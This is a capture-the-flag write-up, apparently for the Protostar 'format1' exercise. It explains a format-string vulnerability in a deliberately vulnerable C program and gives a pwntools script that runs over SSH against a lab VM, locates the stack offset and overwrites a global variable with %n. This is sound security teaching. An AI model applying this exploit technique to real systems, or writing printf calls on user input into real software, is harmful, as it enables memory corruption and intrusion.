

# Format1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}

```

Goal : overwrite the content of "target"


First of all, the format string vulnerability is located in the call of "printf" in vuln(), actually 
we are controlling the char pointer "string". So basically we can inject format specifier like "%x", "%p" to leak
value from the stack.


With the format specifier %n we can write on the stack. Actually 
%n will write the number of bytes printed before it at a specific address (that we choose).

example:

```c
#include <stdio.h>


int main(int argc, char **argv){
    int asd=0;           //  asd is initialized to 0

    printf("AAAABBBB%n\n",&asd);  // AAAABBBB is 8 bytes  , 8 will be assign to asd
    printf("asd value is %d\n", asd); 
}

```

This will output: 

```
AAAABBBB
asd value is 8
```


Ok, so we can modify the content of variable with the format specifier %n but how to modify a variable that we cannot control ?


The idea is to write ourself **the address** of "target" in the buffer that we control, to **point** on this address and  then use the format specifier "%n"
to change his value.


So to overwrite the content of "target" we need to find the address of target and use %n to write at this address.


## address of "target" :

```bash
user@protostar:~$ objdump -t /opt/protostar/bin/format1 | grep target
08049638 g     O .bss	00000004              target
```

"target" is global variable and it is non initialized , which mean it is located in the BSS section.


0x08049638 => \x38\x96\x04\x08  (in little endian format)

## Small tips : 

In C we can use a format specifier to access an argument at a specific postion:

ex : printf("%3$x", 1,23,16); // output  0x10 = 16 which is the third argument

The format specifier %p will print the value in hex with the prefix 0x... whereas the 
format specifier %x print only in hex without the prefix 0x.


Time to  write our exploit: 


# paylaod:

```python

from pwn import *

target_add='\x38\x96\x04\x08' # address of "target"

r = ssh(host="192.168.160.128" , user="user", password="user")

postion_in_stck=0
for i in range(200):  
    payload = bytes('AABBBBAA%{}$8p'.format(i).encode())  # first we are trying to find BBBB in the stack  
    format1 = r.run(["/opt/protostar/bin/format1" , payload]) # running format1 with argv[1] :  "%i$8p"  
    output= format1.recv().decode()
    
    print(output)
    if "42424242" in  output:  # once we found BBBB on the stack 
        print("position in the stack : ", i , " : " ,output) # we print the position in the stack of our BBBB 
        postion_in_stck = i # we save the position in the stack where we  control BBBB
        break
    
    format1.close()


finalPayload ='AA{}AA%{}$8n'.format(target_add,postion_in_stck ) # here we replace BBBB by the address of "target" where we have control in the stack
print("[+] PAYLOAD : " , finalPayload) 
format1 = r.run(["/opt/protostar/bin/format1" , finalPayload])
print(format1.recv())
format1.close()
```

We execute our script aaaannnd we have modify "target"


